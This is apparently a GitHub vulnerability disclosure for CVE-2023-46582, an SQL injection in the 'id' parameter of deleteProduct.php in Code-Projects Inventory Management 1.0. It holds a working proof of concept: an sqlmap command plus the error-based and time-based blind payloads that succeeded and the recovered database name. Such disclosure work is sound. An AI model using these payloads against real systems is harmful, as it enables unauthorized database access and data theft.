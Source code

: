# CVE-2023-46582-Code-Projects-Inventory-Management-1.0-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/inventory-management-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2021/05/Inventory_Management_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Inventory Management V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'id'parameter in the deleteProduct.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46582
+ Affected Version: Code-Projects Inventory Management V1.0
+ Vulnerable File: /deleteProduct.php
+ Parameter Name: id 
+ Attack Type: Local
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ Login with admin
+ Go to Products page
+ Send a delete request for a product
+ Intercept the request via Burp Suite
+ Copy and paste the request to a request.txt file
+ Then use sqlmap to exploit
+ `sqlmap -r request.txt -p id --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=35 AND (SELECT 7568 FROM(SELECT COUNT(*),CONCAT(0x716a706271,(SELECT (ELT(7568=7568,1))),0x716b707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=35 AND (SELECT 1053 FROM (SELECT(SLEEP(5)))ekBD)
---
```
+ current database: `inventory_project`
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Inventory-Management-1.0/assets/113091631/9b68392c-8b68-440f-bc19-cd2160e3b801">
